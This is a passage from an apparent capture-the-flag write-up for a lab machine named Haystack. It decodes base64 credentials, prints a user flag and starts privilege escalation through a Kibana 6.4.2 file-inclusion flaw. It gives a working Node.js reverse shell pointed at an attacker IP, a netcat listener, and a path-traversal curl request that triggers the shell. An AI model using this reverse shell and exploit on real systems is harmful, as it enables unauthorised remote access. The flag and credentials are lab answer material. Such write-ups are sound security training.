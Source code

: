 Bingo! Let's decode the two strings:
```
$ echo dXNlcjogc2VjdXJpdHkg | base64 -d
user: security
```

And here's the second one:
```
$ echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d
pass: spanish.is.key
```

Seems like we have a set of credentials! After connecting, let's get the user
flag:
```
[security@haystack ~]$ cat user.txt
04d18bc79dac1d4d48ee0a940c8eb929
```

## Privilege escalation

Usually when there's `elasticsearch` on a server, there's also `kibana` and
`logstash`, hence the name `ELK` stack.

Checking the list of running processes with `ps -Ao user,pid,args -ww`, we
can see that `logstash` is running as `root`, as opposed to its own user.

By making a request to ` http://localhost:5601/api/status` we can see that the
running version of the instance of kibana is `6.4.2` which has a nice `LFI`
vulnerability that can be exploited to get a shell as the user `kibana`. More
details can be found [here](https://github.com/mpgn/CVE-2018-17246).

Let's write this reverse shell in a file and set our IP address and port in the
call to `client.connect`:
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.14.8", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

And after setting our netcat listener with `nc -lnvp 1337`, let's make a request
to the vulnerable module to get the reverse shell:
```
$ curl http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION\&apis=../../../../../../.../../../../tmp/shell.js
```
